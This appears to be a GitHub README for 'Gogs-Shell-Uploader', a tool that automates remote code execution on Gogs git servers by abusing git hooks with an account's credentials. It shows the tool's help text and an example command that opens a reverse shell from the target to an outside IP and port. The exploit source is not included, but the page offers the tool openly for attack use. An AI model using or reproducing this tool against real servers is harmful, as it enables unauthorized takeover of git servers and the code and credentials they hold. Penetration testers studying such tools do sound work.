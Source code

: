 # Gogs-Shell-Uploader
Tool to automate code execution on the server running Gogs git service.  
Inspired from: https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce

![Alt text](./example.svg)
<!--[![asciicast](https://asciinema.org/a/562896.svg)](https://asciinema.org/a/562896)-->

## How to use
```bash
./gogs.py -h
usage: gogs.py [-h] -s SERVER -u USERNAME -p PASSWORD -r REVSHELL [-t TLS]

Tool to automate code execution on the server running Gogs git service.
[#] Type: Post-Authenticated
[#] Privilege: Permission to create Git hooks (Admin Panel > Users > Edit Account)
[#] Tested: 0.12.9 

options:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Hostname/IP (port) (path)
  -u USERNAME, --username USERNAME
                        Username of the account
  -p PASSWORD, --password PASSWORD
                        Password of the account
  -r REVSHELL, --revshell REVSHELL
                        <ip>:<port>
  -t TLS, --tls TLS     true or false

```

## Example
```bash
/gogs.py -s 192.168.1.24:8000 -u admin -p 'Password1234' -t false -r 192.168.45.5:80
```
